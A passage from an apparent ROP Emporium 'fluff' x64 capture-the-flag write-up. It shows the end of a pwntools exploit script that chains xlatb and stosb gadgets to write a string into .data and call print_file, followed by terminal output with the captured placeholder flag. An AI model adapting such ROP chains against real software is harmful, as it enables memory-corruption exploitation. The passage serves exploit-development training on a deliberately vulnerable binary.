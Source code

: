 ```
    payload += rdx
    payload += rcx

    # 2. add xlatb gadget
    payload += xlatb

    # 3. add stosb gadget
    payload += stos

# and finally call print_file with the address of .data
payload += pop_rdi
payload += data_addr
payload += print_file

io = context.binary.process()

print(io.recvuntil(">"))

io.sendline(payload)

print(io.recvrepeat())
```

And, of course, the flag!

```
voidwalker@Abyss:[fluffx64]** ./exploit.py
[*] '/home/voidwalker/ROPEmporium/fluffx64/fluff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/fluffx64/fluff': pid 5870
b'fluff by ROP Emporium\nx86_64\n\nYou know changing these strings means I have to rewrite my solutions...\n>'
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

Definetely one of the most, if not the most, challenging ROP gadget chains I have ever had to do.
